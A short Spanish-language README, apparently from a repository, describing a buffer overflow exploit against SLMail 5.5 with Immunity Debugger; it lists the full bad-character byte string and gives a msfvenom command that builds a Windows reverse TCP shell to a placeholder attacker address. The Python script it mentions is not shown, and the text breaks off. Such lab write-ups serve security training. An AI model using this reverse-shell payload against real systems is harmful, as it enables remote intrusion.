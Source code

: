 Para las utilidades se descargaran unas aplicaciones para hacer el trabajo mas comodo, por tanto, se descargara el binario al cual vamos a atacar *(Slmail_5.5 ya que es vulnerable a BOF)* la aplicacion Inmunity Debugger para monitorizar todo a bajo nivel.

## Badchars

Son necesarios para evitar conflictos al momento de crear nuestra shellcode y que el registro ESP pueda interpretar
nuestro codigo y proporcionarnos nuestra reverse shell, o el comando que queramos inyectar en el sistema.

```
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```

## Codigo del Script

Bof a Slmail 5.5

Para conseguir el shellcode se puede hacer uso de la herramienta msfvenom:

> msfvenom -p windows/shell_reverse_tcp LHOST=tuDireccionIP LPORT=443 -a x86 --platform windows -b "Aqui van los badChards" -e x86/shikata_ga_nai -f c


> El script esta hecho en python3

<div style="text-align: center;">